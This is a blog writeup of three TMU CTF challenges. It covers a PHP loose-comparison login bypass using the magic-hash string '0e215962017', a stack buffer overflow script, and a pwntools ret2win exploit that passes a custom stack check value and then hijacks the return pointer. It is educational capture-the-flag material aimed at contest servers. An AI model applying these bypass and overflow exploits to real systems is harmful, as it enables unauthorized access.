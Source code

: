 ```yaml
---
title: "TMU CTF: Writeups"
categories: ["Hacking", "CTF", "Binary Exploitation", "Web Hacking"]
tags: ["hacking", "CTF", "Binary Exploitation", "Web Hacking", "Steganography"]
date: "2021-09-11"
type: "post"
weight: 400
keywords: "hacking pentesting c source code auditing static analysis"
toc: "true"
---
```


This was a well rounded CTF in my opinion with good challenges for beginners (like me) that were not too trivial. Instead of the standard `robots.txt` or source code inspection they had challenges where one could easily find clues to get started researching the challenges. That is even if the solution wasn't immediately clear you had at least some direction for a google search and a shot at solving the challenge during the CTF runtime.

I didn't get a chance to spend too long playing the CTF and had a few near misses but here are a few challenge writeups.

## Web

### Login

Straight away we hit up `/robots.txt` as is my approach for every ctf web challenge. This yields some PHP sauce:


```php
if (isset($_GET["password"])) {
    if (hash("md5", $_GET["password"]) == $_GET["password"]) {
        echo "<h1>Here is the flag:</h1>" . $flag;
    } else {
        echo "Try harder!";
    }
}
```

Which I look at and have two guesses:

+ md5 collisions
+ type juggling

Now its important to note that 'type juggling' is a term I have *heard* of in relation to PHP vulnerabilities. But which I knew nothing about really. 

Now we focus on the only important line here:

`if (hash("md5", $_GET["password"]) == $_GET["password"])` 


The first guess is based on the idea that `md5` is a known vulnerable hashing algorithm which fails on several properties of a cryptographic hash:

+ Collision resistance
   + It should be hard to choose any two messages that result in the same hash
+ Preimage resistance
   + Given the hash, it should be hard to find the original message
+ Second Preimage Resistance 
   + Given the hash and the original message, it should be hard to come up with a second message that has the same hash


None of these quite fit the scenario we have here but remembering I don't know anything about type juggling I decide to investigate my first guess further (md5 could be that bad right?). After googling around for awhile I found a combination of "it might be possible" and a question [here](https://crypto.stackexchange.com/questions/19493/is-there-a-string-thats-hash-is-equal-to-itself) on the exact question at hand:

> Is it possible to have an md5 hash equal its input?

But since the answer was inconclusive and no example of such a string was provided I decided to learn about type juggeling.

First port of call is of course the amazing repo [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). Which provided the perfect overview of PHP type juggling in the presence of the lose comparison `==` operator. I then setup a PHP repel with the function using [writephponline](https://www.writephponline.com/).

![](https://i.imgur.com/z5zTCOU.png)

We can then start testing out how PHP handles certain inputs. At first I tried some simple things like int `0` (`$password = 0`) which obviously worked but would not work against the remote host since upon a quick confirmation search the `$_GET["password"]` in the original source will return a string. 

Hence we look for a string comparison that evaluates to `0`. After a few tries and searching around I came up with [this](https://stackoverflow.com/questions/62293578/ctf-type-juggling-with-ripemd160-hash#62300133) stack post which explains and also drops a working string `0e215962017` which PHP will treat as a float leading to a zero eval.

![](https://i.imgur.com/6vZWSDr.png)

This works against the server implementation too and we collect the flag.

> TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}

## pwn

### Warmup 

This one was quite a straightforward BOF challenge if you know about even basic overflow challenges you would likely have just tried a long string against the input to test for offsets and fingerprint the binary. In this case a long enough input such as:

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

Will overwrite a value on the stack which is compared to `0` in a if condition somewhere causing the check to pass and the flag to be printed.

It's easiest just to do this overflow with netcat but here's a script anyway.

```python
from pwn import *

HOST = '194.5.207.56'
PORT = '7000'
proc = remote(HOST, PORT)
proc.sendlineafter('Let us know your name: \n', b'A' * 242)
log.success(proc.recvall())
```

> TMUCTF{n0w_y0u_4r3_w4rm3d_up}

### Baby Pwn

We start out by checking the memory protections and gather other info about the binary which may indicate how it is exploitable. I like to run a simple script I made called [binaliser](https://github.com/Angus-C-git/binaliser) which makes guesses based on memory protections enabled and other metrics about the strategy for the binary. 

![](https://i.imgur.com/emmZ0NX.png)

In this case we have the following memory protections:


```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

with the **NX** bit set and no win function detected, this indicates either a ROP challenge or a win function with a name not detected by the script. We can get more of an idea about the potential for rop by checking what gadgets are present in the binary.

After running the binary and ropper I note that the gadgets are pretty sparse with only `124` detected and not many of those useful.

Thus its time for the next trick in the book, static analysis. My disassembler of choice is [binary ninja](https://binary.ninja/) since I could pick it up for 'cheap' as a student. Looking at the disassembled binary gives us this main function:


{{< image ref="images/blog/ctfs/mainBabyPwn.png" >}}


But also a strange function named **wow**, which has the following disassembly:


{{< image ref="images/blog/ctfs/wowBabyPwn.png" >}}

This is our **win** function since it opens the flag file to read and prints it to stdout. So now we have a plan of attack:

1. Control the return pointer 
2. Return to the 'wow' function

Now when we run the binary we get the following output:

{{< image ref="images/blog/ctfs/outBabyPwn.png" >}}

If we attempt a trivial overflow we will fail the compare in the main function disassembly:

```nasm
cmp     dword [rbp-0x4], 0xcafe
```

and fail to reach the vulnerable code in `helloUser` that will let us control the return pointer. We beat this custom canary by calculating the offset to it and then inserting the expected value as follows:

```python
log.info(f"offset to cmp @: {cyclic_find('iaa') - 4}")
# pass inital cmp
canary = flat({
    32 - 4: p64(0xcafe)
})
```

This takes us to the vulnerable function and the next stage of our exploit: controlling the return pointer and returning to **wow**, our win function. This is just a simple overflow which we can simplify with pwntools `flat` and `symbols` functions once again to complete the exploit chain.

**Exploit**

```python 
log.info(f"offset to cmp @: {cyclic_find('iaa') - 4}")
# pass inital cmp
canary = flat({
    32 - 4: p64(0xcafe)
})
proc.sendlineafter('enter your name:', canary)

## win @wow    
payload = flat({
    136: elf.symbols['wow']
})

proc.sendlineafter('yourself ;;)\n', payload)

# shellit
proc.interactive()
```

> TMUCTF{w0w!_y0u_c0uld_f1nd_7h3_w0w!}
